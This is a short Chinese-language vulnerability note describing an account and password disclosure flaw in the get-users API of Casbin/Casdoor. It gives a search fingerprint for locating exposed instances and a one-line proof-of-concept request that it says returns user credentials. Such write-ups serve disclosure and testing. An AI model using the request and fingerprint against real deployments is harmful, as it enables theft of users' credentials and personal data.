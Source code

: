 # Casbin get-users 账号密码泄漏漏洞

## 漏洞描述

Casbin get-users api接口存在账号密码泄漏漏洞，攻击者通过漏洞可以获取用户敏感信息

## 漏洞影响

```
Casbin
```

## 网络测绘

```
title="Casdoor"
```

## 漏洞复现

登录页面

![image-20220524143206718](./images/202205241432780.png)

验证POC

```
/api/get-users?p=123&pageSize=123
```

![image-20220524143215583](./images/202205241432624.png)